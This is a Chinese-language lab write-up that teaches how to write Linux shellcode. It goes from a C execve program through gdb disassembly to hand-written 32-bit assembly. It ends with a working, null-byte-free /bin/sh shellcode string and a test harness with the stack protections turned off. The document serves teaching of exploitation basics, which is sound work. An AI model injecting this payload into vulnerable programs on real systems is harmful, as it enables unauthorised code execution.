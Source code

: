 # shellcode编写实验

## 实验概述

### 【目的】
编写Linux环境下的shellcode。
### 【环境】
Linux
### 【工具】
gdb
### 【原理】
shellcode是一段机器指令，用于在溢出之后改变系统的正常流程，转而执行shellcode从而入侵目标系统。
shellcode基本的编写方式：
- 编写c程序实现功能
- 使用汇编来替代函数调用等
- 汇编编译链接，获取机器码
## 实验步骤

### 【步骤】
这里使用c语言来进行编写。
```
#include<stdio.h>
int main()
{
    char *name[2];
    name[0]="/bin/sh";
    name[1]=NULL;
    execve(name[0],name,NULL);
}
```
其中execve进行系统调用，通过name[0]提供的参数"/bin/sh"起一个shell。
execve（参数1，参数2，参数3）
参数1：命令所在路径
参数2：命令的集合
参数3：传递给执行文件的环境变量集

尝试编译运行。
```
$ gcc shell.c -o shell
$ ./shell
$ echo u got it
u got it
```
用gdb查看
```
$ gdb shell -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from shell...(no debugging symbols found)...done.
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	sub    rsp,0x20
   0x000000000040059e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004005a7 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004005ab <+21>:	xor    eax,eax
   0x00000000004005ad <+23>:	mov    QWORD PTR [rbp-0x20],0x400674
   0x00000000004005b5 <+31>:	mov    QWORD PTR [rbp-0x18],0x0
   0x00000000004005bd <+39>:	mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004005c1 <+43>:	lea    rcx,[rbp-0x20]
   0x00000000004005c5 <+47>:	mov    edx,0x0
   0x00000000004005ca <+52>:	mov    rsi,rcx
   0x00000000004005cd <+55>:	mov    rdi,rax
   0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
   0x00000000004005d5 <+63>:	mov    eax,0x0
   0x00000000004005da <+68>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004005de <+72>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004005e7 <+81>:	je     0x4005ee <main+88>
   0x00000000004005e9 <+83>:	call   0x400460 <__stack_chk_fail@plt>
   0x00000000004005ee <+88>:	leave
   0x00000000004005ef <+89>:	ret
End of assembler dump.
pwndbg>
```
其中关键点在
```
0x00000000004005c5 <+47>:	mov    edx,0x0
0x00000000004005ca <+52>:	mov    rsi,rcx
0x00000000004005cd <+55>:	mov    rdi,rax
0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
```
传递了三个参数并且call execve()。
直接使用这四条指令显然是不行的，shellcode需要能够独立运行并且尽量短小，这里的`call   0x400480 <execve@plt>`依赖plt表，前面的参数传递也依赖程序的数据段等，我们需要用汇编来重写这里的代码。
对于`call   0x400480 <execve@plt>`，我们可以用系统调用来重写，execve的调用号为：0xb，那么就有
```
mov al,0xb
int 0x80
```
这里的0x80是根据al的值进行系统调用。
为了传参方便，这里采用32位汇编的写法，把参数push到栈上就可以传递参数了。
先将"/bin/sh"压栈
```
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
```
注意这里用xor eax,eax把eax置0，不使用`mov eax,0`的原因是这样会出现`\x00`，shellcode会被gets()这类函数截断。
esp指向当前栈顶，此时即指向"/bin/sh",我们把esp保存到ebx
```
mov ebx,esp
```
现在把两个参数压栈，eax为NULL(0)，ebx为"/bin/sh"的地址
```
push eax
push ebx
```
此时esp指向数组argv，把它赋值给ecx。
```
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80       ;通过中断0x80进行系统调用
```
所以有完整的代码：
```
section .text
global _start

_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
使用nasm编译，链接，运行
```
$ ld -o shell shell.o
$ ld -m elf_i386 -o shell shell.o
$ ./shell
$ echo u got it
u got it
```
成功了，使用objdump提取
```
$ objdump -d shell

shell:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    %eax,%eax
 8048062:	50                   	push   %eax
 8048063:	68 2f 2f 73 68       	push   $0x68732f2f
 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
 804806d:	89 e3                	mov    %esp,%ebx
 804806f:	50                   	push   %eax
 8048070:	53                   	push   %ebx
 8048071:	89 e1                	mov    %esp,%ecx
 8048073:	31 d2                	xor    %edx,%edx
 8048075:	b0 0b                	mov    $0xb,%al
 8048077:	cd 80                	int    $0x80

```
这样就提取到了,下面可以写个c程序验证一下。
```c
#include <stdio.h>

char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

int main()
{
    void (*fp) (void);
    fp=(void *)shellcode;
    fp();
}
```
```
$ gcc auth.c -fno-stack-protector -o auth -z execstack -m32
$ ./auht
$ echo u got it
u got it

```
### 【总结】

本次实验主要练习了linux下shellcode的编写。
